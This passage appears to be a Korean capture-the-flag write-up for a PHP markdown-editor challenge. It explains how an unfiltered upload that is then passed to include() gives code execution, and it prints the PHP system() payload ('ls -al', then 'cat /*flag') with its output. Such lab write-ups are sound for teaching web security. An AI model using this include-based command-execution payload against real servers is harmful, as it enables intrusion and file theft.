 ```
RUN chmod -R 777 /var/www/html/uploads

EXPOSE 80
```
여기서 치명적인 정보를 하나 발견했다.<br />
서버가 실행될 때 `/var/www/html/` 안에 있던 플래그 파일을 루트 디렉토리로 옮기면서 이름도 랜덤으로 바뀌어진다는 점이다. 이러한 이유로 위에서 시도했던 삽질이 먹히질 않았던 것이다.
## 최종 풀이
여기서 알 수 있는 취약점은 마크 다운 파일을 업로드하면 파일의 내용을 필터링하는 코드가 없다는 점, 그리고 index.php에서 `post_handler.php`에 접근할 때 `post_handler.php`는 `include(example.md)`를 하면서 해당 파일 안에 있는 코드를 실행시킨 다는 점이다.

만약 `example.md` 안에 `system()` 함수를 실행시키는 php 코드가 있다면 `post_handler.php`에서 해당 코드가 실행돼 출력시킬 수 있다는 것이다.
### example.md 수정하기
```php
<?php
system("ls -al");
?>
```
```
* RESULT *
total 52 drwxrwxrwx 1 www-data www-data 4096 Jan 31 05:50 . drwxr-xr-x 1 root root 4096 Nov 15 2022 .. -rw-r--r-- 1 root root 235 Jan 31 05:50 Dockerfile drwxr-xr-x 2 root root 4096 Jan 31 05:50 css -rw-r--r-- 1 root root 1551 Jan 31 05:50 edit.php -rw-r--r-- 1 root root 1496 Jan 31 05:50 index.php -rw-r--r-- 1 root root 222 Jan 31 05:50 post_handler.php -rw-r--r-- 1 root root 510 Jan 31 05:50 save.php -rw-r--r-- 1 root root 449 Jan 31 05:50 upload.php drwxrwxrwx 1 root root 4096 Jan 31 05:50 uploads
```
`example.md`의 내용을 모두 지우고 php 코드를 삽입한 후에 메인 페이지로 돌아가면 preview로 해당 결과가 나오게 된다.<br />
#### 플래그 알아내기
전에 봤듯이 `DockerFile`에 보면 플래그는 루트 디렉토리에 위치해있다. <br />
그래서 php 코드를 간단하게 `cat /*flag`로 변경해주고 메인 페이지로 돌아가면 곧 바로 플래그를 볼 수가 있다.<br />
플래그의 위치를 미리 알아두지 않았다면 모든 디렉토리를 돌아다니면서 귀찮게 찾을뻔 했다.
```
DH{REDACTED}
```
# 배운 것
1. php에서 `include()` 함수를 호출하면 인자로 넘어간 파일이 실행될 수 있다는 것.
2. php에서 `realpath()` 함수는 인자로 넘어간 문자열의 "." 혹은 ".."을 지워버린다는 것.
3. 제공되는 모든 파일은 세심히 살펴봐야할 필요가 있다는 것, 취약점 분석에는 모든 정보가 중요하게 작용한다는 점(`DockerFile`라든가).
